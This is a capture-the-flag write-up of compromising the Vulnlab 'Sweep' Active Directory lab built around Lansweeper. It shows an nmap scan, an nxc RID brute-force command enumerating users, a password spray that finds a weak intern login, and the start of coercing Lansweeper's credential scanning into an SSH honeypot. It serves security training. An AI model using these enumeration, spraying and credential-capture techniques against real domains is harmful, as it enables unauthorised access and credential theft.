**Target:**   `10.129.234.177`
**Domain:**   `sweep.vl`
**Date:**     November 2026
**Platform:** Vulnlab
## Executive Summary
This report documents the full compromise of the sweep.vl domain, built around a Lansweeper asset-management deployment. RID brute forcing over a guest session enumerated domain users, and a password spray revealed a weak intern account that granted access to the Lansweeper web console. The console's scanning feature was abused to coerce a service account into authenticating against an attacker-controlled SSH honeypot, leaking the svc_inventory_lnx credentials in cleartext. That account was added to the Lansweeper Admins group (granting WinRM access), and the Lansweeper credential store was decrypted to recover the privileged svc_inventory_win account, which held local administrator rights and completed the compromise.

## Initial Enumeration

### Nmap Scan

```bash
┌──(penguin㉿0X0F)-[~/OSCP/Sweep]
└─$ cat Sweep.txt 
# Nmap 7.98 scan initiated Sun Nov  8 18:22:52 2026 as: /usr/lib/nmap/nmap -p- -Pn -sC -sV -A -T4 -vv -oN Sweep.txt 10.129.234.177
Nmap scan report for 10.129.234.177
Host is up, received user-set (0.070s latency).
Scanned at 2026-11-08 18:22:53 GMT for 194s
Not shown: 65512 filtered tcp ports (no-response)
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
81/tcp    open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-favicon: Unknown favicon MD5: 0A60C945E674EC7B953429B515519567
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-title: Lansweeper - Login
|_Requested resource was /login.aspx
82/tcp    open  ssl/xfer?     syn-ack ttl 127
| tls-alpn: 
|   h2
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=Lansweeper Secure Website
| Subject Alternative Name: DNS:localhost, DNS:localhost, DNS:localhost
| Issuer: commonName=Lansweeper Secure Website
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha512WithRSAEncryption
| Not valid before: 2021-11-21T09:22:27
| Not valid after:  2121-12-21T09:22:27
| MD5:     0a77 f256 6e45 3ce0 dc6b 78e9 a3fc 1bf7
| SHA-1:   645f 63c0 c4ab 2111 5aa1 f41f 23a3 3791 a45b 78cc
| SHA-256: 88fc cc49 8ff5 a18a 2ff3 e2a3 8387 a6dd 3c34 1ebd ca06 9156 1faa 14bd bc6a 86dc
| -----BEGIN CERTIFICATE-----
| MIIDUDCCAjigAwIBAgIQHwy8C6IE9oREp36CbWp5JjANBgkqhkiG9w0BAQ0FADAk
| MSIwIAYDVQQDDBlMYW5zd2VlcGVyIFNlY3VyZSBXZWJzaXRlMCAXDTIxMTEyMTA5
| MjIyN1oYDzIxMjExMjIxMDkyMjI3WjAkMSIwIAYDVQQDDBlMYW5zd2VlcGVyIFNl
| Y3VyZSBXZWJzaXRlMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAzO2C
| Jfp7sqAELYNZU+2p+jtRQB4GF0ovTRNiY5lR2FhGBZNOVCD6ZKk2UJFv9kn3bbCd
| bpV9XBaE921aU6qUQ0W2iakErQHc2K/c/PZVR2yJ041BnSFYOMLpFS8YDmattexp
| euJbaWjSu+p6tgi740BSxC+McekQ9R+o5zbBNzCsi0wHYcu0jUvR8KcDaEQK2r+r
| W7uxsNtehx8QcE+z1gaM8cD/GtaYLAKfLKqEHG/c+fODsk9pnrIu6qUhFt+pKaQ1
| q10t48PcSasT+V1Qc/yOZ9ar8xewvnkN8lB0xgpG6j6JXq+X/pKx6fPYg0T04bRa
| wYlhT+vSlm7tPxlohQIDAQABo3wwejAdBgNVHSUEFjAUBggrBgEFBQcDAgYIKwYB
| BQUHAwEwDgYDVR0PAQH/BAQDAgSwMCoGA1UdEQQjMCGCCWxvY2FsaG9zdIIJbG9j
| YWxob3N0gglsb2NhbGhvc3QwHQYDVR0OBBYEFBIHEhpltFOvyWpyTKtPcbzTXfTg
| MA0GCSqGSIb3DQEBDQUAA4IBAQCmbQLVl/hZOOjBGKlegHsEeg/UsjyslZBJuTkr
| Kfj10mbOZS4emvCeeKaxznP3D4GlGzaqJNm0D9R0QbGDl6krKEA75joIyD6RQpLZ
| D+5HweTEJUp5EtQLFd4IRljXSaZjYxdMkYkvDpNnMBaqbxYALOsLd6rycVFyKa/J
| kaBanOVk0IaDN43WTAYoihuQyICFqBmXOkhEscPfQdACdlFjpz1y6GE0qmZUW81I
| NiBczynApftsGxahNA82ryOVudBnwLWzL8+C9T2ZYj7I5HMVT1zbv9kKfbY6v9DZ
| SY462ERWkZvek2obx9ShzQ7mj7Cl1GIehVodk7F3fszltBY6
|_-----END CERTIFICATE-----
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2026-11-08 18:24:26Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: sweep.vl, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack ttl 127
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: sweep.vl, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack ttl 127
3389/tcp  open  ms-wbt-server syn-ack ttl 127 Microsoft Terminal Services
| ssl-cert: Subject: commonName=inventory.sweep.vl
| Issuer: commonName=inventory.sweep.vl
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-11-07T18:21:45
| Not valid after:  2027-05-09T18:21:45
| MD5:     41d5 2bef a056 1f36 c851 031d a129 2c77
| SHA-1:   ac81 1fe1 b924 c8a3 bd55 99c0 4ea5 e137 4adf d61a
| SHA-256: b799 eaff 9625 4d49 8b48 1308 ed50 39e3 adc3 6231 6286 4500 c735 40ad b4c9 8cd2
| -----BEGIN CERTIFICATE-----
| MIIC6DCCAdCgAwIBAgIQJbmGtqLO3qpB/a8+icfWezANBgkqhkiG9w0BAQsFADAd
| MRswGQYDVQQDExJpbnZlbnRvcnkuc3dlZXAudmwwHhcNMjYxMTA3MTgyMTQ1WhcN
| MjcwNTA5MTgyMTQ1WjAdMRswGQYDVQQDExJpbnZlbnRvcnkuc3dlZXAudmwwggEi
| MA0GCSqGSIb3DQEBAQUAA4IBDwAwggEKAoIBAQC0F3in2RRUxwIiwC5clFhYQ4BL
| CPOZQtyew8lc5TmJbRYOl1VBnsVScuYCekKNBU8moXII825LvTtBk48kbfPg+fOM
| p3lN5xywHtPGWMQqqA3e5Qnf4xfg86QP3ascwEWqI1/xkj+3yVQldru/bJ6MDDIf
| gmJupG9W7hPnmzw7nFPU2xqHDmv6KksbAJfrzb+ddALXOhD0vwP4cF5oysiQKJTP
| CCwAqwOEvuD+47Q5Y+lms5AfcJ++TlA9C82XWRko1MpKd8uw1+BBZx1fG16coKKy
| Gyv/zYuVCgqgW2tH+raV6fD3Xuse0jjf/VsDRaO4porOKAiQBvA4enThShvJAgMB
| AAGjJDAiMBMGA1UdJQQMMAoGCCsGAQUFBwMBMAsGA1UdDwQEAwIEMDANBgkqhkiG
| 9w0BAQsFAAOCAQEAMfYTCIKvkOzE1fokEEilwMoAPwfrznfHoiZhpeRoGGmhfrhQ
| 69g0oqvDNZAi1WiTFS9PRtSX873wzd68CtzZFxQqeWpVDX3x8QZrQZMXA0y2SorD
| nFjLKU3aw7c0Wt7xldiCZ4xRTmybX/DPQCLcXhnUiRG+FhQiZQUnqP+1TeMWP+cp
| YYKbLtvqjyPz9Tbd7ivO2wWejz+TI5FmOFJFMlOfyYPXEen7JQW5jvwS63sYZk5n
| 7OIkz8UO4QDw7YqWGMA7Gacl4ZTIvFPPfkNyJYHKFkYm0TJSxuIJehg/kHY4YlCj
| VWLqkdUxQE3kKzvRW6zQFApQdzKLV/pMvKcY6w==
|_-----END CERTIFICATE-----
| rdp-ntlm-info: 
|   Target_Name: SWEEP
|   NetBIOS_Domain_Name: SWEEP
|   NetBIOS_Computer_Name: INVENTORY
|   DNS_Domain_Name: sweep.vl
|   DNS_Computer_Name: inventory.sweep.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2026-11-08T18:25:20+00:00
|_ssl-date: 2026-11-08T18:26:01+00:00; -3s from scanner time.
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
49664/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49675/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49676/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49681/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
59215/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
59237/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2022|2012|2016 (89%)
OS CPE: cpe:/o:microsoft:windows_server_2022 cpe:/o:microsoft:windows_server_2012:r2 cpe:/o:microsoft:windows_server_2016
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Microsoft Windows Server 2022 (89%), Microsoft Windows Server 2012 R2 (85%), Microsoft Windows Server 2016 (85%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.98%E=4%D=11/8%OT=53%CT=%CU=%PV=Y%DS=2%DC=T%G=N%TM=6AF0BEBF%P=x86_64-pc-linux-gnu)
SEQ(SP=106%GCD=1%ISR=109%TI=I%TS=A)
SEQ(SP=107%GCD=1%ISR=108%TI=I%II=I%SS=S%TS=A)
OPS(O1=M542NW8ST11%O2=M542NW8ST11%O3=M542NW8NNT11%O4=M542NW8ST11%O5=M542NW8ST11%O6=M542ST11)
WIN(W1=FFFF%W2=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FFDC)
ECN(R=Y%DF=Y%TG=80%W=FFFF%O=M542NW8NNS%CC=Y%Q=)
T1(R=Y%DF=Y%TG=80%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=N)
U1(R=N)
IE(R=Y%DFI=N%TG=80%CD=Z)

Uptime guess: 0.003 days (since Sun Nov  8 18:21:09 2026)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=263 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: Host: INVENTORY; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
|_clock-skew: mean: -3s, deviation: 0s, median: -3s
| smb2-time: 
|   date: 2026-11-08T18:25:24
|_  start_date: N/A
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 61081/tcp): CLEAN (Timeout)
|   Check 2 (port 21603/tcp): CLEAN (Timeout)
|   Check 3 (port 11691/udp): CLEAN (Timeout)
|   Check 4 (port 11840/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked

TRACEROUTE (using port 139/tcp)
HOP RTT      ADDRESS
1   96.91 ms 10.10.16.1
2   96.95 ms 10.129.234.177

Read data files from: /usr/share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Nov  8 18:26:07 2026 -- 1 IP address (1 host up) scanned in 195.20 seconds
```

port 81 is hosted with an landsweeper service whihc is an IT asset discovery and inventory platoform commonly deployed on Windows and integrated with Active Directory




tried the defautl credentials from rapid 7 doesnt seems to work moving forward to smb shares nothing specifc have beeen found !

other than 3 .vbs script


We dont have any right to write on any of the share sadly . lets try to enumerate some users with the guest acccount


doesnt seems like we can query any user with the guest account we can use NXC rid brute force module to enumerate users.
```bash
┌──(penguin㉿0X0F)-[~/OSCP/Sweep]
└─$ nxc smb 10.129.234.177 -u "guest" -p "" --rid-brute 
SMB         10.129.234.177  445    INVENTORY        [*] Windows Server 2022 Build 20348 x64 (name:INVENTORY) (domain:sweep.vl) (signing:True) (SMBv1:None) (Null Auth:True)                                                                                                                                                   
SMB         10.129.234.177  445    INVENTORY        [+] sweep.vl\guest: 
SMB         10.129.234.177  445    INVENTORY        498: SWEEP\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.129.234.177  445    INVENTORY        500: SWEEP\Administrator (SidTypeUser)
SMB         10.129.234.177  445    INVENTORY        501: SWEEP\Guest (SidTypeUser)
SMB         10.129.234.177  445    INVENTORY        502: SWEEP\krbtgt (SidTypeUser)
SMB         10.129.234.177  445    INVENTORY        512: SWEEP\Domain Admins (SidTypeGroup)
SMB         10.129.234.177  445    INVENTORY        513: SWEEP\Domain Users (SidTypeGroup)
SMB         10.129.234.177  445    INVENTORY        514: SWEEP\Domain Guests (SidTypeGroup)
SMB         10.129.234.177  445    INVENTORY        515: SWEEP\Domain Computers (SidTypeGroup)
SMB         10.129.234.177  445    INVENTORY        516: SWEEP\Domain Controllers (SidTypeGroup)
SMB         10.129.234.177  445    INVENTORY        517: SWEEP\Cert Publishers (SidTypeAlias)
SMB         10.129.234.177  445    INVENTORY        518: SWEEP\Schema Admins (SidTypeGroup)
SMB         10.129.234.177  445    INVENTORY        519: SWEEP\Enterprise Admins (SidTypeGroup)
SMB         10.129.234.177  445    INVENTORY        520: SWEEP\Group Policy Creator Owners (SidTypeGroup)
SMB         10.129.234.177  445    INVENTORY        521: SWEEP\Read-only Domain Controllers (SidTypeGroup)
SMB         10.129.234.177  445    INVENTORY        522: SWEEP\Cloneable Domain Controllers (SidTypeGroup)
SMB         10.129.234.177  445    INVENTORY        525: SWEEP\Protected Users (SidTypeGroup)
SMB         10.129.234.177  445    INVENTORY        526: SWEEP\Key Admins (SidTypeGroup)
SMB         10.129.234.177  445    INVENTORY        527: SWEEP\Enterprise Key Admins (SidTypeGroup)
SMB         10.129.234.177  445    INVENTORY        553: SWEEP\RAS and IAS Servers (SidTypeAlias)
SMB         10.129.234.177  445    INVENTORY        571: SWEEP\Allowed RODC Password Replication Group (SidTypeAlias)
SMB         10.129.234.177  445    INVENTORY        572: SWEEP\Denied RODC Password Replication Group (SidTypeAlias)
SMB         10.129.234.177  445    INVENTORY        1000: SWEEP\INVENTORY$ (SidTypeUser)
SMB         10.129.234.177  445    INVENTORY        1101: SWEEP\DnsAdmins (SidTypeAlias)
SMB         10.129.234.177  445    INVENTORY        1102: SWEEP\DnsUpdateProxy (SidTypeGroup)
SMB         10.129.234.177  445    INVENTORY        1103: SWEEP\Lansweeper Admins (SidTypeGroup)
SMB         10.129.234.177  445    INVENTORY        1113: SWEEP\jgre808 (SidTypeUser)
SMB         10.129.234.177  445    INVENTORY        1114: SWEEP\bcla614 (SidTypeUser)
SMB         10.129.234.177  445    INVENTORY        1115: SWEEP\hmar648 (SidTypeUser)
SMB         10.129.234.177  445    INVENTORY        1116: SWEEP\jgar931 (SidTypeUser)
SMB         10.129.234.177  445    INVENTORY        1117: SWEEP\fcla801 (SidTypeUser)
SMB         10.129.234.177  445    INVENTORY        1118: SWEEP\jwil197 (SidTypeUser)
SMB         10.129.234.177  445    INVENTORY        1119: SWEEP\grob171 (SidTypeUser)
SMB         10.129.234.177  445    INVENTORY        1120: SWEEP\fdav736 (SidTypeUser)
SMB         10.129.234.177  445    INVENTORY        1121: SWEEP\jsmi791 (SidTypeUser)
SMB         10.129.234.177  445    INVENTORY        1122: SWEEP\hjoh690 (SidTypeUser)
SMB         10.129.234.177  445    INVENTORY        1123: SWEEP\svc_inventory_win (SidTypeUser)
SMB         10.129.234.177  445    INVENTORY        1124: SWEEP\svc_inventory_lnx (SidTypeUser)
SMB         10.129.234.177  445    INVENTORY        1125: SWEEP\intern (SidTypeUser)
SMB         10.129.234.177  445    INVENTORY        3101: SWEEP\Lansweeper Discovery (SidTypeGroup)
```

we can save the users in `user.txt` file to spray the password , 

we got an hit of `intern : intern`


## Foothold - Lansweeper Access

we were able to login to lansweeper with creds : ) also we can try enumerate the smb and winrm with the creds before further going into lansweeper


we have `READ` authority on a new share called Lansweeper$ lets check on it  , doesnt seems anything intersting anything so far while skimming


also the user `intern` doesnt seem to have any specific ACL to abuse 


https://hacktricks.wiki/en/windows-hardening/active-directory-methodology/lansweeper-security.html

## Credential Harvesting - SSH Honeypot

while reading hacktricks its seems like we can harvest the credential , by capturing hash with ssh honeypot while the lansweeper try to authenticate to the honeypot !


these are the steps  : ) to be followed


after setting up ! we need to make sure untick no SSH and click OK move to credential scanning page


where we can map the credential to the task we setuped earlier
